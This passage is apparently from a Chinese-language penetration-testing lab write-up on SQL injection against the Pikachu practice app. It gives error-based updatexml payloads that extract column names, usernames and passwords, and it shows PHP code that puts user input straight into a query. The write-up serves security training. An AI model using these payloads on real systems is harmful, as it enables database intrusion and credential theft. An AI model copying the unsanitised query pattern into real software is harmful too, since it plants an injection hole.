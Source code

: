 ![image](../../../img/渗透/实验/pikachu/38.png)

字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改limit后面的数字，爆表名

![image](../../../img/渗透/实验/pikachu/39.png)

![image](../../../img/渗透/实验/pikachu/40.png)

![image](../../../img/渗透/实验/pikachu/41.png)

![image](../../../img/渗透/实验/pikachu/42.png)

数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`

![image](../../../img/渗透/实验/pikachu/43.png)

数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`

![image](../../../img/渗透/实验/pikachu/44.png)

### xx 型注入
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
